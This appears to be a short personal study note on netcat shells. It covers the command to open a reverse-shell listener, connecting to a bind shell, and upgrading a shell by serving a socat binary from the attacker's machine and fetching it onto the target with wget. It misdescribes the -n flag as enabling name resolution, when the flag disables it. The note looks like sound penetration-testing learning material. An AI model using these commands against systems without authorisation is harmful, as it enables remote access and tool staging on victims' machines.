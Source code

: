 - Netcat is the basic tool for all things networking. Keep in mind if you open a netcat shell on a device it will be uninteractive by default and very unstable which is why it's typically suggest that once you have it if you need to go any farther you start [[#Upgrading]].
## Listener
- To open up a netcat listener for a [[What is a Shell?#Reverse Shell]] use the following syntax
	- nc -lvnp \<port-number\>
		-  -l is used to tell netcat that this will be a listener
		-  -v is used to request verbose output
		-  -n is used to tell netcat to resolve host names or use [[Domain Name#Domain Name Server]]
-  If you choose a port below 1024 you will need to use sudo when starting your listener
## Connecter
- If a listener is already active on a device then you can connect to it and obtain a [[What is a Shell?#Bind Shell]] using the following syntax
	- nc \<target-ip\> \<chosen-port\>

# Upgrading
- A common way of Upgrading would be the following steps
	- Download a socat static compiled binary
	- Start a web server on a device you control using the following syntax
		- sudo python3 -m http.server 80
	- From your netcat shell download the socat static compiled binary with the following syntax
		- wget \<your ip\>/socat -O /tmp/socat
- This will set you up to use a [[Basic Socat]] shell instead